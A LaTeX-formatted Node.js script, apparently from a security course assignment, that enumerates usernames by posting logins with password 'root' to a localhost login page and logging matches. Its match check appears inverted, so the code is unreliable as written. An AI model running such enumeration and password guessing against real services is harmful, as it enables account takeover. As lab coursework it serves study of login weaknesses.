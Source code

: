 \documentclass[12pt]{article}
\begin{document}
\url{https://github.com/Davidj361/4108ass1/blob/master/part3/memorycrash.js} \\
Node.js program:
\begin{lstlisting}
// Includes
const Promise = require("bluebird");
const bhttp = require("bhttp");
const tough = require("tough-cookie");
const cheerio = require('cheerio');
const taskQueue = require("promise-task-queue");
const fs = require("fs");
const readline = require("readline");
const stream = require("stream");

const argv = process.argv;
if (argv.length < 3) {
  console.log("Need additional arguments");
  process.exit(1);
}
const facebookFile = argv[2];
var facebookStream = fs.createReadStream(facebookFile);
var outstream = new stream;
const validUsersFile = "/tmp/part2.validUsernames.txt";

// Setup a session for storing cookies
var cookieJar = new tough.CookieJar();
var agentOptions = {
  maxCachedSessions: 10 
}
var options = {
  headers: {"user-agent": "Mozilla/5.0 (X11; Linux x86_64; rv:64.0) Gecko/20100101 Firefox/64.0"},
  cookieJar: cookieJar,
  rejectUnauthorized: false,
}
var httpSession = bhttp.session(options);
var queue = taskQueue();
var failedRequests = 0;

queue.on("failed:apiRequest", function(task) {
  failedRequests += 1;
});

queue.define("checkUsername", function(task) {
  return Promise.try(function() {
    var payload = {
      username: task.user,
      password: "root"
    }
    return httpSession.post("http://localhost:5000/login", payload);
  }).then(function(response) {
    var bodyStr = response.body.toString();
    $ = cheerio.load(bodyStr);
    var ret = "No match found";
    var select = $(".alert");
    if (select !== undefined) {
      var str = select.text().trim();
      if (str !== undefined && str.length != 0 && str.includes("Username does not exist") ) {
        console.log("FOUND A USERNAME: " + task.user);
        var line = task.user + '\n';
        fs.appendFileSync(validUsersFile, line);
      }
    }
  });
}, {
  concurrency: 2
});

var r1 = readline.createInterface({
  input: facebookStream,
  terminal: false
});
r1.on("line", function(line) {
  console.log("Trying username: " + line);
  var user = line.trim();
  Promise.try(function() {
    return queue.push("checkUsername", {user: user});
  }).then(function(jsonResponse) {
  })
});
\end{lstlisting}
\end{document}
